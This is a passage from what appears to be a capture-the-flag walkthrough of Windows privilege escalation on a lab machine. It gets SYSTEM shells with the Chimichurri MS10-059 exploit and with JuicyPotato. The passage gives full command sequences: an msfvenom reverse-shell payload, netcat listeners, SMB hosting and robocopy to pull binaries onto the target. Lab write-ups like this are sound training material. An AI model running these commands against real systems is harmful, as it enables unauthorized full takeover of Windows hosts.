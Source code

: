 However, the exploit returns the following usage statement:

```
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
```

Starting another local listener and re-running gives a SYSTEM shell:

```bash
# on kali
nc -nvlp 7777
# on target 
%TEMP%\MS10-059.exe 10.10.14.17 7777
```

![root](./bounty/root.png)

But this is too simple. Try another way... Looking at user privileges shows an interesting one:

![priv](./bounty/priv.png)

A quick Google search for `seimpersonateprivilege privilege escalation` lands the following link:

- https://hunter2.gitbook.io/darthsidious/privilege-escalation/juicy-potato

The tool project page is here:

- https://github.com/ohpe/juicy-potato

Using the tool is simple enough:

````bash
# on kali, make a new shell payload
msfvenom --platform windows -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=7777 -f exe -o bubba.root.exe
# on kali, download JuicyPotato.exe
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
# on kali, host binaries:
sudo impacket-smbserver BUBBA .
# on kali, start a new listener
nc -nvlp 7777
# on target, download binaries
robocopy \\10.10.14.17\BUBBA\ %TEMP% JuicyPotato.exe /copy:DT /w:1 /r:1 /v
robocopy \\10.10.14.17\BUBBA\ %TEMP% bubba.root.exe /copy:DT /w:1 /r:1 /v
# on target, run exploit
%TEMP%\JuicyPotato.exe -l 9876 -p %TEMP%\bubba.root.exe -t *
````

And this also provides a SYSTEM shell!